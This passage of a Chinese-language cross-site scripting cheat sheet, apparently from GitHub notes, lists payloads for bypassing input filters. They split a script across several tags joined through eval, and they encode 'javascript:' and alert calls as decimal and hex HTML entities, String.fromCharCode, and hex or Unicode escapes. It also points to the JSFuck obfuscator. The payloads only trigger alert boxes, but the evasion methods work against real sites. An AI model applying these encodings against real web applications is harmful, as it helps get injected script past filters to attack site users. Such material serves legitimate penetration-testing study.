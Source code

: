   #### (8)拆分跨站

  * 当应用程序**没有过滤**关键字符，却对**输入字符长度有限制**时，可以使用**拆分法**

    ```html
    <script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
    ```

  #### (9)HTML编码

  ##### a. 十进制

  * 标识符：``&# + Ascii码``

    ```html
    <a href="javascript:alert(/xss/)">click me</a>	=> 
    1. 
    	<a href="j&#97;v&#97;script:alert(/xss/)">click me</a>
    2.
    	 
        <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
            or
        <img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>
        
    ```

  ##### b. 十六进制

  * 标识符：``&#x``

    ```html
    <a href="javascript:alert(/xss/)">click me</a>	=> 
    1. 
    	<a href="j&#x61;v&#x61;script:alert(/xss/)">click me</a>
    2. 
    	<img src=x onerror=eval("\x61\x6c\x65\x72\x74\x28\x31\x29")>
    		or
    	<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
    ```

  ##### c. 其他编码

  ###### 	①Unicode编码

  ```html
  <img src='x' onerror=eval("\0061\006c\0065\0072\0074\0028\0031\0029")>
  <script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029")</script>
  ```

  #### 	(1)jsfuck混淆

  * 将js代码转换成混淆之后的格式
  * 在线转换网站http://www.jsfuck.com/
